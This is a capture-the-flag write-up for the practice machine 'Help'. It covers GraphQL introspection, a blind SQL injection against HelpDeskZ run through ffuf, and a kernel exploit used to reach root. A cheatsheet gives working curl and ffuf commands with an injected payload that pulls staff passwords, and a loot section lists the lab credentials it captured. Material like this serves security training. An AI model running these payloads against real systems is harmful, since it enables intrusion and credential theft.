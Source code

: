 # Help \[Easy]

## Report

A javascript endpoint on port 3000, mentions the use of a query language, upon googling API querying languages, we find documentation for graphQL and retrieve creds. An endpoint 'support' on the main http website is running Helpdeskz, which has two publically available CVEs. The file upload function on submitting a ticket is vulnerable to SQLi which is automated by ffuf to retrieve creds for user flag.

The machine is vulnerable to a kernel level exploit which is found via searchsploit. Compile with gcc to execute binary and become root.

An alternative method involved unauthenticated file inclusion. PHP files were not allowed but remained on the website using a hash of the filename and the timestamp it was uploaded to the server. However, this exploit failed even though we used the exact timestamp instead of guessing within a time interval as the original exploit suggested.

## Cheatsheet

<pre><code> curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }'
 curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }'
<strong>
</strong><strong>curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User"\) { name fields { name } } }" }'
</strong>curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }'

ffuf -u "http://10.10.10.121/support//?v=view_tickets&#x26;action=ticket&#x26;param[]=4&#x26;param[]=attachment&#x26;param[]=1&#x26;param[]=6+and+mid((select+password+from+staff+limit+0,1),1,1)+%3d+'FUZZ'+--+-" -request request.txt -w ../../scripts/smallcharlist.txt -fw 73
#ffuf was reading https from the url why tho
ffuf -u "http://10.10.10.121/support//?v=view_tickets&#x26;action=ticket&#x26;param[]=4&#x26;param[]=attachment&#x26;param[]=1&#x26;param[]=6+and+mid((select+password+from+staff+limit+0,1),HFUZZ,1)+%3d+'WFUZZ'+--+-" -request request.txt -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73

ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73
-request-proto specifies what protocol to use - default https which is why the request kept using https

uname -a
</code></pre>

## Loot

### Creds

helpme@helpme.com:godhelpmeplz

help:Welcome1
